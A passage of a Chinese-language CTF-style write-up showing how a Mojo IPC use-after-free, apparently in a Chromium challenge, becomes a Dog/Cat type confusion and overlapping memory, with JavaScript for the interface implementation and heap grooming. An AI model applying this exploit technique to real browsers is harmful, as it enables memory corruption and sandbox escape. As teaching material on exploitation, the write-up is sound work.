 我们可以利用`Dog`和`Cat`类型混淆，过程是：先申请的是`Dog`，调用`CookAndEat`函数，在`raw_food->GetWeight`中释放掉`Dog`对象，申请`Cat`对象占用该内存，最终在`Dog`的`weight+=weight_`的时候，实际会将`Cat`对象的`__data__+=weight_`。如果控制得当的话，可以使得`__data__`字段和另一个`Cat`指向同一片内存区域，这样就构造出了`overlap`内存，后续利用就很好方便了。

利用的思路是上面这个，接下来一步一步说明利用的过程。

首先是`FoodInterfaceImpl`的实现，由前面的基础知识可以知道可以使用`js bindings api`来实现。

```js
function FoodInterfaceImpl() {}
FoodInterfaceImpl.prototype.getWeight = async function() {
    if(!this.weight) {
        return {'weight': 0x101};
    }
    return {'weight': this.weight};
};

FoodInterfaceImpl.prototype.setWeight = async function(weight) {
    this.weight = weight;
    return;
};

FoodInterfaceImpl.prototype.setDescription = async function(desc) {
    this.desc = desc;
    return ;
};

FoodInterfaceImpl.prototype.getDescription = async function() {
    if (!this.description) {
        return {'description': 'null'};
    }
    return {'description': this.description};
};
```

还要搞清楚的是对象类型的大小，可以断点断在`CreatePerson`、`CreateDog`以及`CreateCat`上，最终可以确定接口内存的大小为`0x40`。

首先是申请`8`个`Dog`，对应`name`申请的大小也是`0x40`：

```js
    let dogCount = 8;
    let catCount = 0x10;

    // create 8 dogs with the same size of name
    let dogPtrArr = [];
    let catPtrArr = [];
    for (let i=0; i<dogCount; i++) {
        let dogPtr = (await mojoPtr.createDog()).dog;
        await dogPtr.setName('a'.repeat(stringSize))
        dogPtrArr.push(dogPtr);
    }
```

然后绑定`FoodInterface`的实现，用于后续触发漏洞。
